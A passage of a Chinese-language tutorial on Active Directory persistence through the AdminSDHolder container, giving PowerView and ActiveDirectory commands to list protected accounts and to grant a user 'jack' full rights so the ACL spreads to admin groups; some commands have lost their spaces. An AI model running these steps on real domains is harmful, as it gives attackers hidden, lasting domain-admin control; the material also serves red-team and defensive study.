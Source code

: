 # 0x03 AdminSDHolder组

AdminSDHolder是一个特殊的AD容器，具有一些默认安全权限，用作受保护AD账户和组的模板，当我们获取到域控权限，就可以通过授予该用户对容器进行滥用，使该用户成为域管。

默认情况下，该组的 ACL 被复制到所有“受保护组”中。这样做是为了避免有意或无意地更改这些关键组。但是，如果攻击者修改了AdminSDHolder组的
ACL，例如授予普通用户完全权限，则该用户将拥有受保护组内所有组的完全权限（在一小时内）。如果有人试图在一小时或更短的时间内从域管理员中删除此用户（例如），该用户将回到组中。

    
    
    在server2000中引入，默认包含如下的组：AdministratorsDomainAdminsAccountOperatorsBackupOperatorsDomainControllersEnterpriseAdminsPrintOperatorsReplicatorRead-only DomainControllersSchemaAdminsServerOperators

其中Administrators、Domain Admins、Enterprise
Admins组对AdminSDHolder上的属性具有写权限，受保护的ad账户和组的具备admincount属性值为1的特征。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114536.png)

## 3.1 使用powerview查询

查询ad保护的域的用户

    
    
    Get-NetUser-AdminCount|select samaccountname

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114537.png)

查询域中受ad保护的所有组

    
    
    Get-netgroup -AdminCount| select name

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114538.png)

## 3.2 使用ActiveDirectory

查询ad保护的域中所有的用户和组

    
    
    Import-ModuleActiveDirectoryGet-ADObject-LDAPFilter"(&(admincount=1)(|(objectcategory=person)(objectcategory=group)))"|select name

![]()

## 3.3 添加用户

添加jack用户对其有完全控制权限。

    
    
    Add-DomainObjectAcl-TargetIdentityAdminSDHolder-PrincipalIdentity jack -RightsAll

然后验证下，这里的sid为jack用户的。

    
    
    Get-DomainObjectAcl adminsdholder | ?{$_.SecurityIdentifier-match "S-1-5-21-151877218-3666268517-4145415712-1106"} | select objectdn,ActiveDirectoryRights |sort -Unique
